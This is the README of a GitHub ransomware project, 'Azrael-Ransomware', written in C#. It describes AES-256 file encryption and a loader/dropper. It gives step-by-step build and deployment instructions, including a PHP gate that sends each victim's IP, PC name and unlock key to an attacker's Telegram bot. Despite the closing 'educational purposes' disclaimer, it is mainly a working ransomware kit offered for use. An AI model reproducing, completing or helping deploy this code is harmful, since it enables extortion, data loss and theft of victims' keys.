


# Azrael-Ransomware



## 📑 About
```
This is a simple ransomware-example writed in C#.
Yes, many functions and its implementation is weak, but I think this example is worth being.
```
### 💾 Features:
 * Size: 800kb
 * Using Algorithm for Encryption: AES-256
 * Uses a gateway to redirect encrypted information and the unlock key, sending it directly to the telegram bot.
 * Divided into modules: Loader, Encryptor, Form(include decrypt-function) 

## 🏴‍☠️ Video-Fragment
https://github.com/K3rnel-Dev/Azrael-Ransomware/assets/132711888/ecfe921a-0321-4062-baa0-2e6eb6e9bc1c


## 💻 Working Graph
<p float="left">
  
</p> 

## How to use?
 * Create bot in telegram: @BotFather and get your chatid with bot @getmyid_bot
 * Put this data in web-gate(src/WebResender/gate.php)
 ```php
$botToken = 'YOUR-TELEGRAM-BOT-TOKEN';
$chatId = 'YOUR-TELEGRAM-CHAT-ID';
$message = "[🏴‍☠️] New-Victim Computer!\nIP: $API_IP\nPC: $PC\nKey: $key";
 ```
 * And change url to your web-gate(src/Azrael_Form/Azrael/Algorithms/config.cs):
 ```csharp
public static readonly string UrlServer = "http://127.0.0.1/resender.php"; // Your web-gate
 ```
 * Then compile the FORM(FORM.EXE) and encryptor(ENC.EXE) and then add these two resources to the loader, the main thing is that they are compatible with the names
 (src/Azrael_Loader/Modules/Dropper.cs):
```csharp
16 File.WriteAllBytes(encPath, Properties.Resources.enc);
26 File.WriteAllBytes(formPath, Properties.Resources.Form);
```
 * After this, compile the loader and the project compilation is complete!.
 * Note: (If you want, you can change the AES keys to your own).

 ### 🕸️ Notation (if ):
 > If you decide to rewrite this project, you will need .net framework 4 so that the application can run on multiple versions windows.

## ⚠️ Disclaimer - this project for education and purposes only!
```
This open-source example ransomware is provided for educational purposes only. 
The author assumes no responsibility for any misuse or illegal activities performed with this software.
Users are solely responsible for ensuring that their use of this tool complies with all applicable laws and regulations.
```
